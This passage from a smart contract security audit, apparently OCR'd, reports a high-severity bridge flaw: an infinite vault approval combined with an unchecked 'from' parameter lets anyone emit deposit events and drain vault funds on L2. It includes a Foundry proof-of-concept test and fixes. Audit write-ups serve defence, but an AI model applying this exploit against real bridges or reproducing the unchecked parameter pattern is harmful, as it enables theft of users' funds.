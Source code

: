 ```js
    if (from != msg.sender) {
        revert UnauthorizedDeposit();
    }
```

Alternatively, remove the `from` parameter entirely and use `msg.sender` as the source address.

### [H-2] Infinite `approval` from vault to bridge allows anyone to trigger unlocking of L2 tokens and steal all vault funds

**Description:** The `L1Vault` contract grants the `L1BossBridge` contract an infinite approval:

```js
vault.approveTo(address(this), type(uint256).max);
```

In `depositTokensToL2`, the `from` parameter is user-controlled and not restricted to `msg.sender`:

```js
function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
        // that has approved the bridge
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
@>        token.safeTransferFrom(from, address(vault), amount);

        // Our off-chain service picks up this event and mints the corresponding tokens on L2
        emit Deposit(from, l2Recipient, amount);
    }
```

If `from` is set to the vault address, the `bridge` can successfully call `safeTransferFrom(vault, vault, amount)` because it already has infinite approval from the vault.

The emitted `L1BossBridge::Deposit` event will then be processed by the off-chain service, which will mint the specified amount of tokens to l2Recipient on L2 — allowing the caller to unlock all tokens from the vault on L2.

**Impact:**

- Complete loss of all vault funds on L2.
- Anyone can drain the vault’s assets by repeatedly calling `depositTokensToL2(vault, attackerL2, hugeAmount)` until the vault is empty.

**Proof of Concept:**

1. Vault sets infinite approval to bridge.
2. Attacker calls deposit by setting `from` parameter as the `vault` address.
3. Bridge executes `safeTransferFrom(vault, vault, amount)` (no-op on L1 balance but still emits event).
4. Off-chain sequencer mints amount tokens on L2 to attacker’s account.
5. Attacker drains vault funds on L2.

```js
function testCanTransferFromVaultToVault() external {
        address attacker = makeAddr('attacker');

        uint256 vaultBalance = 500 ether;
        deal(address(token), address(vault), vaultBalance);
        vm.expectEmit(address(tokenBridge));
        vm.prank(attacker);
        //Self transferring tokens from vault to vault
        emit Deposit(address(vault), attacker, vaultBalance);
        //@note can do this forever, mint infinite tokens on the L2
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
    }
```
